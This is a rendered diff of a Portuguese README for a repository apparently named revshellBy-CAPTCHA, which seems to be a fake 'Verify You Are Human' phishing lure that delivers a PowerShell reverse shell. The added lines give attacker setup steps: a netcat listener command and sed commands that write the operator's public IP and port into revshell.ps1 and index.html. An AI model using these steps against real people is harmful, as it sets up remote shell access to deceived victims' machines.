

Before and after one commit to 44384e/revshellBy-CAPTCHA, a Markdown page: README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -6,6 +6,22 @@
 
 
 Este código deve ser utilizado em ambiente controlado onde você tenha permissão para realizar o teste de fishing.
+
+Ouça com o netcat em uma porta especifica, lembre de alterar no `sed` abaixo.
+```
+nc -nvlp 999
+```
+
+
+altere no codigo para seu ip publico e a porta que está ouvindo o netcat.
+```
+ip-address=$(curl ip.me)
+sed -i 's/localhost/$ip-address/g' ./revshell.ps1
+sed -i 's/localhost/$ip-address/g' ./index.html
+sed -i 's/port/SuaPortaDoNETCAT/g' ./revshell.ps1
+```
+
+
 
 ![Verify You Are Human](https://github.com/user-attachments/assets/56be51b9-e58d-40e9-bdb1-54bcc11d4180)
 
````
